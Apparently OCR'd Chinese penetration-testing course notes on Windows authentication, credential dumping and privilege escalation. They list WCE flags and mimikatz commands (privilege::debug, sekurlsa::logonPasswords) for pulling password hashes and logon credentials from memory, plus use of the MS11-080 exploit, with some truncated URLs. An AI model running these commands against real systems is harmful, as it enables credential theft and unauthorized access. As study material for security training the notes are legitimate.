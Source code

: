 ##### 小心了！


#### WINDOWS 身份认证过程


#### WCE (WINDOWS CREDENTIAL EDITOR)

- /usr/share/wce/
- 需要管理员权限
- wce-universal.exe -l / -lv
- wce-universal.exe -d
- wce-universal.exe -e / -r
- wce-universal.exe -g
- wce-universal.exe -w
- LM/NT hash


#### WCE (WINDOWS CREDENTIAL EDITOR)

- 从内存读取LM / NTLM hash
- Digest Authentication Package
- NTLM Security Package
- Kerberos Security Package
- 防止WCE攻击
- HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
    - kerberos
       msv1_
       schannel
       wdigest
       tspkg
       pku2u


#### 其他工具

- pwdump localhost
- fgdump
- mimikatz
    - privilege::debug #提升权限
    - sekurlsa::logonPasswords
    - ::


#### 利用漏洞提权

- Ms11- 080
- Kb
    - https://technet.microsoft.com/library/security/ms11- 080
- Pyinstaller
    - https://pypi.python.org/pypi/PyInstaller/2.
    - python pyinstaller --onefile ms11-080.py
- Pywin
    - [http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/](http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/)
- MS11- 046
    - DoS
